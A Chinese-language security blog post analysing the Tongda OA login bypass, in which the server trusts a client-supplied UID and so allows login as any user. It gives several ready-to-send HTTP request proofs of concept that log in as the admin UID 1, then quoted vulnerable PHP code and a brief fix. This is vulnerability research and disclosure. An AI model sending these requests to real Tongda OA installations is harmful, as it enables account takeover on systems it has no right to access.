 ```yaml
---
layout: post
title:  "通达OA越权登录漏洞分析"
categories: 代码审计
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA越权登录漏洞的分析文章。由于作者能力有限，文中定会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 0x01 漏洞概述

2020年4月中旬的时候，通达OA发布了11.5新版本。国内安全研究人员通过代码比对，发现了此漏洞。此漏洞可以越权登录任意用户账号，影响极大。

漏洞成因是由于前台登陆时未作权限验证，程序开启全局覆盖，可以直接覆盖 _SESSION 里的数据造成任意用户登陆。 服务端只取了UID来做用户身份鉴别，由于UID是整型递增ID，从而导致可以登录指定UID用户。

## 0x02 漏洞分析

- 影响版本：通达OA2017、V11.X<V11.5
- 发现时间：2020-04-01

### 一、Payload

先上payload。

11.4版poc1：

```
GET /general/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

11.4版poc2:

```
POST /logincheck_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

CODEUID=%7BF1643A67-D96F-BB39-E350-AED1A70E5FB9%7D&UID=1
```

2017版poc1：

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

2017版poc2：

```
POST //general/login_code_scan.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 94
Content-Type: application/x-www-form-urlencoded

codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D&uid=1&source=pc&type=confirm&username=admin
```

2017版poc3：

```
GET //ispirit/login_code_check.php?codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

### 二、代码审计

- /logincheck_code.php:11-18行。UID通过post传参。如果CODEUID存在，则不会exit。

  ```php
  $redis = TRedis::redis();
  $UID = intval($_POST["UID"]);
  $CODEUID = $_POST["CODEUID"];
  $login_codeuid = TD::get_cache("CODE_LOGIN" . $CODEUID);
  if (!isset($login_codeuid) || empty($login_codeuid)) {
  	$databack = array("status" => 0, "msg" => _("参数错误！"), "url" => "general/index.php?isIE=0");
  	echo json_encode(td_iconv($databack, MYOA_CHARSET, "utf-8"));
  	exit();
  ```

- /logincheck_code.php:180行。UID用户可控。CODEUID用户可控。

  ```php
  $LOGIN_UID = $UID;
  $LOGIN_USER_ID = $USER_ID;
  $LOGIN_BYNAME = $BYNAME;
  $LOGIN_USER_NAME = $USERNAME;
  $LOGIN_ANOTHER = "0";
  $LOGIN_USER_PRIV_OTHER = $USER_PRIV_OTHER;
  $LOGIN_DEPT_ID_JUNIOR = GetUnionSetOfChildDeptId($LOGIN_DEPT_ID . "," . $LOGIN_DEPT_ID_OTHER);
  $LOGIN_CLIENT = 0;
  $_SESSION["LOGIN_UID"] = $LOGIN_UID;
  $_SESSION["LOGIN_USER_ID"] = $LOGIN_USER_ID;
  ```

- /logincheck_code.php:164行。通过UID的值去数据库里面去取值，

  > $UID -> $query1 -> $cursor1 -> $row

  ```php
  $LOGIN_FUNC_STR = "";
  $query1 = "select user_func_id_str from user_function where uid='$UID'";
  $cursor1 = exequery(TD::conn(), $query1);
  
  if ($row = mysql_fetch_array($cursor1)) {
  	$LOGIN_FUNC_STR = $row["user_
  ```

### 三、漏洞修复

不要通过用户可控的UID作为权限校验的方法。

## 0x03 参考链接

- http://www.0e0w.com
